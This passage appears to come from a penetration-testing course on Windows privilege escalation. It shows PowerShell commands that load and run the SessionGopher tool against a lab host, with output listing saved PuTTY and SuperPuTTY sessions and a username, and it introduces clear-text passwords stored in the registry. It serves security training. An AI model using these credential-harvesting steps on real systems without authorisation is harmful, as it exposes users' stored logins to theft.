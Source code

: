 ### Running SessionGopher as Current User

We need local admin access to retrieve stored session information for every user in `HKEY_USERS`, but it is always worth running as our current user to see if we can find any useful credentials.

Further Credential Theft

```powershell
PS C:\htb> Import-Module .\SessionGopher.ps1

PS C:\Tools> Invoke-SessionGopher -Target WINLPE-SRV01

          o_
         /  ".   SessionGopher
       ,"  _-"
     ,"   m m
  ..+     )      Brandon Arvanaghi
     `m..m       Twitter: @arvanaghi | arvanaghi.com

[+] Digging on WINLPE-SRV01...
WinSCP Sessions

Source   : WINLPE-SRV01\htb-student
Session  : Default%20Settings
Hostname :
Username :
Password :

PuTTY Sessions

Source   : WINLPE-SRV01\htb-student
Session  : nix03
Hostname : nix03.inlanefreight.local

SuperPuTTY Sessions

Source        : WINLPE-SRV01\htb-student
SessionId     : NIX03
SessionName   : NIX03
Host          : nix03.inlanefreight.local
Username      : srvadmin
ExtraArgs     :
Port          : 22
Putty Session : Default Settings

```

---

## Clear-Text Password Storage in the Registry

Certain programs and windows configurations can result in clear-text 
passwords or other data being stored in the registry. While tools such 
as `Lazagne` and `SessionGopher` are a great way 
to extract credentials, as penetration testers we should also be 
familiar and comfortable with enumerating them manually.
